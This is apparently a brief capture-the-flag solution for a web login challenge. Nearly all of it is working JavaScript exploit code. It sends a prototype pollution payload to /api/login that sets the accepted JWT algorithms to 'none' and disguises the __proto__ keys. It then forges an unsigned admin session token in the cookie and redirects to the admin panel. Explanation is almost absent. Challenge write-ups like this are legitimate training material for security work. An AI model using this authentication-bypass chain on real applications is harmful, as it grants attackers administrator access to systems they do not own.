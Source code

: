 

Do a prototype pollution to affect code behavior.
```
fetch("/api/login", {
	"headers": {
		"content-type": "application/json",
	},
	"body": JSON.stringify({
		'auth.username' : 'thanos',
		'auth.password' : '123',
		'%%proto%%.algorithms' : ['none'],
		'%%proto%%.authKeyFile' : true
	}).replace(/%%/g,'__'),
	"method": "POST",
	"mode": "cors",
	"credentials": "omit"
});
```

Generate valid admin session with none algorithm
```
document.cookie = 'session=' + btoa(JSON.stringify({"alg":"none","typ":"JWT"})).replace(/=+$/,'') + '.' + btoa(JSON.stringify({"username":"admin","iat":Math.floor(new Date().getTime() / 1000)})).replace(/=+$/,'') + '.'
```

Redirect to panel
```
document.location.href = '/panel'
```
